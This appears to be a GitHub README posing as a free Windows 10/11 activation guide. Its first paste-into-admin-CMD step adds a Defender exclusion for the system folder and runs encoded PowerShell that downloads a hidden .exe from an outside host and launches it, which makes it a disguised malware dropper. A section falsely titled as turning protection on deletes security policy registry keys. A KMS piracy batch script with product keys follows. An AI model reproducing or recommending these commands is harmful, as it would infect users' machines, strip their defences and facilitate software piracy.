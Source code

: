 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
CMD Commands:
###
  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKLM\Software\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKCU\Software\Policies" /f
  reg delete "HKLM\Software\Microsoft\Policies" /f
###




## To activate Windows 10 and 11 follow the steps
### Create active.cmd file and paste this code
### Run as administrator


@echo off
 title Activate Windows 8.1, 10, 11 ALL versions for FREE!&cls&echo ============================================================================&echo #Project: Activating Microsoft software products for FREE without software&echo ============================================================================&echo.&echo #Supported products:&echo - Windows 11 Home&echo - Windows 11 Home N&echo - Windows 11 Home Single Language&echo - Windows 11 Home Country Specific&echo - Windows 11 Professional&echo - Windows 11 Professional N&echo - Windows 11 Education&echo - Windows 11 Education N&echo - Windows 11 Enterprise&echo - Windows 11 Enterprise N&echo - Windows 11 Enterprise LTSB&echo - Windows 11 Enterprise LTSB N&echo.&echo.&echo ============================================================================&echo Activating your Windows…&cscript //nologo slmgr.vbs /ckms >nul&cscript //nologo slmgr.vbs /upk >nul&cscript //nologo slmgr.vbs /cpky >nul&set i=1&wmic os | findstr /I "enterprise" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk NPPR9-FWDCX-D2C8J-H872K-2YT43 >nul&cscript //nologo slmgr.vbs /ipk DPH2V-TTNVB-4X9Q3-TJR4H-KHJW4 >nul&cscript //nologo slmgr.vbs /ipk WNMTR-4C88C-JK8YV-HQ7T2-76DF9 >nul&cscript //nologo slmgr.vbs /ipk 2F77B-TNFGY-69QQF-B8YKP-D69TJ >nul&cscript //nologo slmgr.vbs /ipk DCPHK-NFMTC-H88MJ-PFHPY-QJ4BJ >nul&cscript //nologo slmgr.vbs /ipk QFFDN-GRT3P-VKWWX-X7T3R-8B639 >nul&goto server) else wmic os | findstr /I "home" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk TX9XD-98N7V-6WMQ6-BX7FG-H8Q99 >nul&cscript //nologo slmgr.vbs /ipk 3KHY7-WNT83-DGQKR-F7HPR-844BM >nul&cscript //nologo slmgr.vbs /ipk 7HNRX-D7KGG-3K4RQ-4WPJ4-YTDFH >nul&cscript //nologo slmgr.vbs /ipk PVMJN-6DFY6-9CCP6-7BKTT-D3WVR >nul&goto server) else wmic os | findstr /I "education" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk NW6C2-QMPVW-D7KKK-3GKT6-VCFB2 >nul&cscript //nologo slmgr.vbs /ipk 2WH4N-8QGBV-H22JP-CT43Q-MDWWJ >nul&goto server) else wmic os | findstr /I "10 pro" >nul
 if %errorlevel% EQU 0 (cscript //nologo slmgr.vbs /ipk W269N-WFGWX-YVC9B-4J6C9-T83GX >nul&cscript //nologo slmgr.vbs /ipk MH37W-N47XK-V7XM9-C7227-GCQG9 >nul&goto server) else (goto notsupported)
 :server
 if %i%==1 set KMS=kms7.MSGuides.com
 if %i%==2 set KMS=kms8.MSGuides.com
 if %i%==3 set KMS=kms9.MSGuides.com
 if %i%==4 goto notsupported
 cscript //nologo slmgr.vbs /skms %KMS%:1688 >nul&echo ============================================================================&echo.&echo.
 cscript //nologo slmgr.vbs /ato | find /i "successfully" && (echo.&echo ============================================================================&echo.&echo #My official blog: MSGuides.com&echo.&echo #How it works: bit.ly/kms-server&echo.&echo #Please feel free to contact me at msguides.com@gmail.com if you have any questions or concerns.&echo.&echo #Please consider supporting this project: donate.msguides.com&echo #Your support is helping me keep my servers running everyday!&echo.&echo ============================================================================&choice /n /c YN /m "Would you like to visit my blog [Y,N]?" & if errorlevel 2 exit) || (echo The connection to my KMS server failed! Trying to connect to another one… & echo Please wait… & echo. & echo. & set /a i+=1 & goto server)
 explorer "http://microsoft.com"&goto halt
 :notsupported
 echo ============================================================================&echo.&echo Sorry! Your version is not supported.&echo.
 :halt
 pause >nul


